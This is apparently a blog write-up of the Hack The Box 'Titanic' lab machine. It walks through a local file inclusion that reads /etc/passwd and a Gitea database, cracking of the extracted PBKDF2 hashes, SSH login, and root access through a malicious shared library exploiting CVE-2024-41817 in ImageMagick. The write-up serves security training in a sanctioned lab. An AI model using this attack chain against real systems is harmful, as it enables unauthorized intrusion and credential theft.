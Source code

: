 ```yaml
---
layout: post
title: "Titanic HTB Writeup"
date: Feb 28, 2025
---
```


Link to the machine: `https://app.hackthebox.com/machines/Titanic`

Per usual, we scan for open ports.

```
0 kjc@kjc:~$ nmap 10.10.11.55
Starting Nmap 7.95 ( https://nmap.org ) at 2025-02-24 10:38 EST
Nmap scan report for 10.10.11.55
Host is up (0.069s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 1.19 seconds
```

It looks like there's a website and SSH connection. On the website, we can book a ticket. On doing so, there are two request that are made.

![](/assets/2025-02-24T10:52:36-05:00.png)

Looking at the `download?ticket=9d9eaf55-3e76-4670-9351-7f25a1545c3d.json` part of the second request more closely, I suspected there was an LFI. Indeed, there is one. By replacing the JSON file with `/etc/passwd` we get its contents. In particular, the `developer` account is interesting.

```
landscape:x:111:117::/var/lib/landscape:/usr/sbin/nologin
fwupd-refresh:x:112:118:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
usbmux:x:113:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
developer:x:1000:1000:developer:/home/developer:/bin/bash
lxd:x:999:100::/var/snap/lxd/common/lxd:/bin/false
dnsmasq:x:114:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
```

Trying more filenames, we find some interesting `/etc/hosts` entries:

```
127.0.0.1 localhost titanic.htb dev.titanic.htb
127.0.1.1 titanic

# The following lines are desirable for IPv6 capable hosts
::1     ip6-localhost ip6-loopback
fe00::0 ip6-localnet
ff00::0 ip6-mcastprefix
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
```

At the subdomain `dev.titanic.htb` we find a Gitea instance with two repos. The `flask-app` one is not interesting, but the `docker-config` contains some juicy details:

```
# gitea/docker-compose.yml
version: '3'

services:
  gitea:
    image: gitea/gitea
    container_name: gitea
    ports:
      - "127.0.0.1:3000:3000"
      - "127.0.0.1:2222:22"  # Optional for SSH access
    volumes:
      - /home/developer/gitea/data:/data # Replace with your path
    environment:
      - USER_UID=1000
      - USER_GID=1000
    restart: always
```

We can use the LFI again to fetch `/home/developer/gitea/data/gitea/conf/app.ini` which is described on Gitea's documentation, and points us to the DB file at `/home/developer/data/gitea/gitea.db`. In the `user` table we can find the credentials:

```
1|administrator|administrator||root@titanic.htb|0|enabled|cba20ccf927d3ad0567b68161732d3fbca098ce886bbc923b4062a3960d459c08d2dfc063b2406ac9207c980c47c5d017136|pbkdf2$50000$50|0|0|0||0|||70a5bd0c1a5d23caa49030172cdcabdc|2d149e5fbd1b20cf31db3e3c6a28fc9b|en-US||1722595379|1722597477|1722597477|0|-1|1|1|0|0|0|1|0|2e1e70639ac6b0eecbdab4a3d19e0f44|root@titanic.htb|0|0|0|0|0|0|0|0|0||gitea-auto|0
2|developer|developer||developer@titanic.htb|0|enabled|e531d398946137baea70ed6a680a54385ecff131309c0bd8f225f284406b7cbc8efc5dbef30bf1682619263444ea594cfb56|pbkdf2$50000$50|0|0|0||0|||0ce6f07fc9b557bc070fa7bef76a0d15|8bf3e3452b78544f8bee9400d6936d34|en-US||1722595646|1740412843|1740412843|0|-1|1|0|0|0|0|1|0|e2d95b7e207e432f62f3508be406c11b|developer@titanic.htb|0|0|0|0|2|0|0|0|0||gitea-auto|0
3|test|test||test@test.com|0|enabled|0fb2cbd96b68e663c6fe7a2db29c4eb4a9836f740f3ca65662425acf9781aed661a06761d06b99023d0969b57c70d6ece21e|pbkdf2$50000$50|0|0|0||0|||f815e73b2ad7186a678bb47c32024cd5|91af6cb2fec11f9f28ca337bb7cd96c9|en-US||1740410708|1740410716|1740410708|0|-1|1|0|0|0|0|1|0|b642b4217b34b1e8d3bd915fc65c4452|test@test.com|0|0|0|0|0|0|0|0|0||gitea-auto|0
```

I was able to convert the hashes for the developer to a format that John the Ripper would accept. The password is "25282528".

```
kjc@kjc:~$ john hash.txt --wordlist=wordlists/rockyou.txt
'Warning: detected hash type "PBKDF2-HMAC-SHA256", but the string is also recognized as "PBKDF2-HMAC-SHA256-opencl"
Use the "--format=PBKDF2-HMAC-SHA256-opencl" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (PBKDF2-HMAC-SHA256 [PBKDF2-SHA256 256/256 AVX2 8x])
Cost 1 (iteration count) is 50000 for all loaded hashes
Will run 16 OpenMP threads
Press 'q' or Ctrl-C to abort, 'h' for help, almost any other key for status
0g 0:00:00:01 0.02% (ETA: 14:28:51) 0g/s 1638p/s 1638c/s 1638C/s slimshady..dangerous
25282528         (?)
1g 0:00:00:03 DONE (2025-02-24 12:52) 0.2703g/s 1660p/s 1660c/s 1660C/s VANESSA..horoscope
Use the "--show --format=PBKDF2-HMAC-SHA256" options to display all of the cracked passwords reliably
Session completed.
```

With the password, we can SSH into the developer's user on the machine. We find the user flag immediately.

```
developer@titanic:~$ ls
gitea  mysql  user.txt
developer@titanic:~$ cat user.txt
53e5d7d5aeecf65edb82c4bd0c1de901
developer@titanic:~$
```

By looking through the filesystem and trying to find anything executable, we find a script in `/opt/scripts` which runs ImageMagick. We can exploit the script with CVE-2024-41817, like this:

```
developer@titanic:/opt/scripts$ cd /opt/app/static/assets/images
developer@titanic:/opt/app/static/assets/images$ gcc -x c -shared -fPIC -o ./libxcb.so.1 - << EOF
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

__attribute__((constructor)) void init(){
    system("cat /root/root.txt >/home/developer/root.txt");
    exit(0);
}
EOF
developer@titanic:/opt/app/static/assets/images$ cat ~/root.txt
2e563b9d4c49e0c4d8d5461feffa22ab
```

And now we have both the flags, which concludes the HTB box.
